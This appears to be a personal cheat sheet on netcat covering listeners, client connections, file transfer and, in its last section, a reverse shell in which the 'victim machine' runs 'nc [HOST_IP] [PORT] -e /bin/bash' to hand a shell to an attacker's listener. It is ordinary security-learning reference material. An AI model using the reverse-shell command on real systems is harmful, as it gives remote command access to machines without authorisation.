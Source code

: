 # Netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a UDP connection we only add the `-u` option.

## File Transfer
Transfer files over the connection from one system to another without distortion.

> Listener
```bash
nc -lp PORT > /path/to/outfile 
```

> Client
```bash
$ nc -w3 @Listener_IP PORT < /path/to/infile
```
[-w]: Define the timeout in seconds.


## Reverse Shell
Use netcat in server mode to listen for connections then supply the shell from the client. This will allow the session on the server to run commands on the client once the shell is received.

> Server (Attacker Machine)
```bash
$ nc -lvnp 8080
```

> Client (Victim Machine)
```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# 

Tags

[#cheat-sheet](app://obsidian.md/index.html#cheat-sheet)